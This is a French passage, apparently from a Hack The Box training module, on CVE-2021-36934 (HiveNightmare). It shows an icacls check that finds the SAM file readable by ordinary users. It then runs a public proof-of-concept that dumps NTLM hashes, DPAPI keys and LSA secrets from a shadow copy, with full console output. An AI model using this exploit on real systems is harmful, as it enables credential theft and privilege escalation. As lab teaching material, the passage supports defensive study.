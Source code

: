 #### Vérification des autorisations sur le fichier SAM

Nous pouvons rechercher cette vulnérabilité à l'aide de `icacls` pour vérifier les autorisations sur le fichier SAM. Dans notre cas, nous avons une version vulnérable car le fichier est lisible par le groupe `BUILTIN\Users` .

Vérification des autorisations sur le fichier SAM

```
C:\htb> icacls c:\Windows\System32\config\SAM

C:\Windows\System32\config\SAM BUILTIN\Administrateurs :(I)(F)
                                AUTORITÉ NT\SYSTÈME :(I)(F)
                                INTÉGRÉ\Utilisateurs :(I)(RX)
                                AUTORITÉ DU PACKAGE D'APPLICATION\TOUS LES PACKAGES D'APPLICATION :(I)(RX)
                                AUTORITÉ DU PACKAGE D'APPLICATION\TOUS LES PACKAGES D'APPLICATION RESTREINTS :(I)(RX)

Traitement réussi de 1 fichiers ; Échec du traitement de 0 fichiers

```

Une exploitation réussie nécessite également la présence d'un ou plusieurs clichés instantanés. La `protection du système` est activée par défaut sur la plupart des systèmes Windows 10, ce qui créera des sauvegardes périodiques, y compris le cliché instantané nécessaire pour exploiter cette faille.

#### Attaque et analyse des hachages de mot de passe

Ce [PoC](https://github.com/cube0x0/CVE-2021-36934) par [@cube0x0](https://twitter.com/cube0x0) peut être utilisé pour effectuer l'intégralité de l'attaque, y compris le vidage du NTLM hachages de la base de données SAM, directement dans la console.

Attaque et analyse des hachages de mot de passe

```
PS C:\htb> .\CVE-2021-36934.exe

[*] SAM : \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\sam
[*] SYSTÈME : \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system
[*] SÉCURITÉ : \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\security
[*] Copie de fichiers vers C:\windows\temp\
[*] Hachages SAM
Administrateur :500 :aad3b435b51404eeaad3b435b51404ee :7796ee39fd3a9c3a1844556115ae1a54
Invité :501 :aad3b435b51404eeaad3b435b51404ee :31d6cfe0d16ae931b73c59d7e0c089c0
Compte par défaut : 503 : aad3b435b51404eeaad3b435b51404ee : 31d6cfe0d16ae931b73c59d7e0c089c0
Compte utilitaire WDAG : 504 : aad3b435b51404eeaad3b435b51404ee : c93428723187f868ae2f99d4fa66dceb
htb-étudiant:1002:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6
[*] Informations de connexion au domaine mises en cache (domaine/nom d'utilisateur : hachage)
[*] Secrets LSA
[*] SYSTÈME_DPAPI
dpapi_machinekey:3c7b7e66890fb2181a74bb56ab12195f248e9461
dpapi_userkey:c3e6491e75d7cffe8efd40df94d83cba51832a56
[*] NL$KM
NL$KM:45c5b232298b05b8e7e7e04b2c148302ce2fe7d9b8e0f0f820c8e470ddd17f4f422ce69eaf5774010988b378173f8854528f8d9c0636c02443b9d80f35 88b960

[*] Nettoyer..

```
